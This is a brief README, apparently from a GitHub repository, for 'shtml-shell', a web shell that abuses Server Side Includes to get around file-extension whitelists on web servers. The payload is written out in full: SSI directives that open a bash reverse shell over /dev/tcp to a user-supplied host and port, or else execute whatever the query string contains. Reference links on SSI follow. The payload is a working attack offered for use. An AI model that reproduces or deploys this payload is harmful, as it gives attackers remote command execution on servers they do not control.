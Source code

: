# shtml-shell

This Shell abuses the Server Side Inclusions in HTML and allow you get get a reverse connection back to your own machin 

This can come in handy when you want to get arround file extension whitlist

Please change 0.0.0.0 to your host and 1337 to your port in the following lines if you want to get the reverse connection

```sh

<!--#if expr="$QUERY_STRING_UNESCAPED = \$zero" -->
<!--#set var="shl" value="bash -i >& /dev/tcp/0.0.0.0/1337 0>&1" --> 
<!--#else -->
<!--#set var="shl" value=$QUERY_STRING_UNESCAPED -->
<!--#endif -->

 ```
![Shell Screenshot][product-screenshot]

Referenses : 

 * What is SSI : https://httpd.apache.org/docs/current/howto/ssi.html#:~:text=What%20are%20SSI%3F,program%2C%20or%20other%20dynamic%20technology.
 
 * Learn about SSI : https://www.st-andrews.ac.uk/itsnew/web/ssi/

 * Documentation : https://httpd.apache.org/docs/2.4/mod/mod_include.html


[product-screenshot]: Img/ssi-shell.png